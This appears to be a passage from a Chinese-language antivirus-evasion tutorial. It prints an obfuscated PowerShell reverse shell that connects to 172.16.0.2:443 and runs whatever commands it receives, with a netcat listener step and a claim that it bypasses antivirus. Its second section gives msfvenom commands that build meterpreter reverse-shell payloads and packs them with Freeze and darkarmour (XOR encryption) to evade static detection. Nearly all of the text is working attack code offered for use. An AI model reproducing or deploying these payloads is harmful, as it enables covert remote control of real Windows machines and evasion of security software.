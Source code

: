 将生成的新内容保存并放置于目标主机中

```
&("{2}{0}{1}"-f'-vaR','iAble','Set')  ("{1}{0}" -f 'G61J','5u')  ( [TyPe]("{1}{0}{2}" -f'xt.ENC','TE','odiNG')  ) ;${CL`IE`Nt} = &("{1}{0}{2}" -f'c','New-Obje','t') ("{3}{1}{5}{0}{2}{6}{4}"-f'cket','t','s.TCPCli','System.Ne','nt','.So','e')(("{0}{2}{3}{1}" -f '172.16.','2','0','.'),443);${St`REam} = ${C`liENt}.("{0}{2}{1}" -f 'G','am','etStre').Invoke();[byte[]]${B`YtES} = 0..65535|.('%'){0};while((${i} = ${s`T`REaM}.("{1}{0}"-f 'ad','Re').Invoke(${B`Y`TeS}, 0, ${ByT`es}."Le`N`gtH")) -ne 0){;${d`AtA} = (.("{3}{1}{2}{0}" -f 'bject','e','w-O','N') -TypeName ("{0}{5}{2}{1}{3}{6}{4}" -f'Syst','xt.','m.Te','ASCIIEnco','g','e','din'))."getST`RI`NG"(${B`ytES},0, ${I});${Se`NDBa`CK} = (.("{1}{0}"-f'x','ie') ${da`Ta} 2>&1 | .("{0}{1}{2}"-f'O','ut-St','ring') );${sEN`DB`Ack2} = ${s`EnDbACK} + 'PS ' + (.("{1}{0}"-f 'wd','p'))."pA`Th" + '> ';${se`Ndb`ytE} = (  ${5uG`6`1j}::"ASc`iI").("{1}{0}{2}"-f'e','GetByt','s').Invoke(${seN`dB`A`cK2});${sTRe`AM}.("{1}{0}"-f 'rite','W').Invoke(${SeNDB`YTE},0,${Sen`DBY`TE}."lEn`gth");${StR`e`AM}.("{0}{1}"-f'F','lush').Invoke()};${clI`ENt}.("{1}{0}" -f 'lose','C').Invoke()
```

在kali中执行‘‘nc -lvp 443’’并于Windows主机中执行powershell，可成功免杀。

![image-20230124004343833](../../images//image-20230124004343833.png)



### 4.2 使用多重工具进行免杀

Freeze 静态pass

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.0.2 LPORT=4444 -f raw > shell64.raw
./Freeze -I shell64.raw -encrypt -O bypass2.exe
```

darkarmour静态pass

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 -f exe > shelltcp64.exe
python darkarmour.py -f shelltcp64.exe --encrypt xor --jmp -k fsec.io -o by64-6.exe --loop 1500
```


[go/meterpreter/rev_https>>]: set lhost 172.16.0.2
[go/meterpreter/rev_https>>]: generate